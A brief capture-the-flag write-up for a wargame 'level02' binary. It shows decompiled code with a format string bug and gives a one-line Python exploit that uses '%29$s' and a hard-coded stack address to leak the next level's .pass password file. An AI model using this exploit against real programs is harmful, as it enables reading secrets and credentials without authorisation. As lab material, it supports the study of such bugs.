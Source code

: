 # LEVEL 02

* decompile the binary
	- we found a string formatting vulnerability.
		```
		fgets(local_78,100,stdin);
		...
		printf(local_78);
		```
	- we know the flag is being written to the stack
		```
		local_10 = fopen("/home/users/level03/.pass","r");
		...
		fread(local_a8,1,41,local_10);
		```

* to exploit the vulnerability:
	- type the command:
		```
		python -c 'from struct import *; print "%29$s   " + pack("L", 0x7fffffffe510) ' | ./level02
		```
-------
### explinations:
- `0x7fffffffe510` : the flag address in the stack
- `29 in "%29$s"` : index of where the flag addres is located in the stack
